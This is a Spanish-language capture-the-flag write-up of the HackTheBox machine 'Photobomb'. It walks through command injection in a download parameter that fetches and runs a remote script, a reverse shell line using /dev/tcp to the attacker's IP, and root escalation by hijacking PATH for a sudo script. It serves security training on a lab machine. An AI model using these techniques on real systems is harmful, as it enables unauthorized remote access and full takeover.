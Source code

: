 ```yaml
---
layout: post
title: "HackTheBox - Photobomb (easy)"
categories: hackthebox/machines/easy
---
```


<p align="center">
<img src="https://labs.hackthebox.com/storage/avatars/52e97c6ca888644478ddcadfcd9f8be5.png">
</p>

- Photobomb is an easy Linux machine where plaintext credentials are used to access an internal web application with a `Download` functionality that is vulnerable to a blind command injection. Once a foothold as the machine main user is established, a poorly configured shell script that references binaries without their full paths is leveraged to obtain escalated privileges, as it can be ran with `sudo`.

## PortScan

```bash
❯ catn ../nmap/targeted
# Nmap 7.94SVN scan initiated Sun Sep 29 12:39:55 2024 as: nmap -sCV -p22,80 -oN targeted 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 29 12:40:32 2024 -- 1 IP address (1 host up) scanned in 36.79 seconds
```

## Enumeración

- Agregamos el subdominio al `/etc/hosts`.

```bash
❯ echo "10.10.11.182 photobomb.htb" | sudo tee -a /etc/hosts
```

- Esta es la pagina web.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/photobomb/1.png">
</p>

- Nos dicen que demos `click` en la parte morada y que las credenciales las encontraremos en nuestro paquete de inicio.

- Si damos `click` nos piden credenciales pero por el momento no tenemos ningunas.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/photobomb/2.png">
</p>

- Si revisamos el código fuente en el archivo `Javascript` encontramos lo que parecen ser credenciales.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/photobomb/3.png">
</p>

- Si las probamos nos deja conectarnos.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/photobomb/4.png">
</p>

## Shell as wizard

- Ahora lo que vamos a hacer es interceptar con `Burpsuite` la petición al momento de dar `click` en el botón rojo para ver como viaja la petición.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/photobomb/5.png">
</p>

- Después de probar varias inyecciones en la parte de `filetype` podemos concatenar un comando en esta ocasión me hago una petición a un script el cual por el momento no existe y me llega la petición.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/photobomb/6.png">
</p>

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [29/Sep/2024 13:14:05] code 404, message File not found
10.10.11.182 - - [29/Sep/2024 13:14:05] "GET /shell.sh HTTP/1.1" 404 -
```

- Sabiendo que podemos inyectar comandos vamos a crear el archivo para obtener una reverse Shell.

```bash
❯ cat shell.sh
───────┬──────────────────────────────────────────────────
       │ File: shell.sh
───────┼──────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ bash -i >& /dev/tcp/10.10.14.30/443 0>&1
───────┴──────────────────────────────────────────────────
```

- Ahora nos ponemos en escucha.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

- Y simplemente enviamos la petición.

- Agregamos `| bash` para que lo interprete.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/photobomb/7.png">
</p>

- Nos llega la Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.11.182] 43738
bash: cannot set terminal process group (697): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ whoami
whoami
wizard
wizard@photobomb:~/photobomb$ 
```

- Ahora hacemos un tratamiento de la `tty`.

```bash
wizard@photobomb:~/photobomb$ script /dev/null -c bash
wizard@photobomb:~/photobomb$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
```

## User flag

- Podemos ver la flag.

```bash
wizard@photobomb:~$ cat user.txt 
c2dd57cf27062d9098da457334b87181
wizard@photobomb:~$ 
```

## Escalada de Privilegios

- No vemos nada interesante.

```bash
wizard@photobomb:/$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

- Podemos correr ese script como `root` sin proporcionar contraseñas y `setear` variables de entorno.

```bash
wizard@photobomb:/$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:/$ 
```

- Con `find` esta buscando todos los archivos con extensión `".jpg"` en el directorio `"source_images"` y sus subdirectorios, y cambia el propietario y grupo de cada archivo encontrado a `"root:root"`.

```bash
wizard@photobomb:/$ cat /opt/cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

- Tenemos la capacidad de modificar variables como el `'path'` para utilizar un comando `'find'` personalizado. Además, si ejecutamos el comando `'find'` con privilegios de administrador, el `'find'` se ejecutará con permisos de `root`.

<center><iframe width="560" height="315" src="https://www.youtube.com/embed/Z3o0Y2kMoeU?si=Ifo5r-wcDUlddTBk" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe></center>

- Vamos a darnos una `bash`.

```bash
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
```

- Ahora modificamos el `path` temporalmente para dar prioridad al directorio actual.

```bash
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
root
root@photobomb:/home/wizard/photobomb# 
```

## root flag

```bash
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
b740fbec8fa61254b2467d424ac7aaaa
```
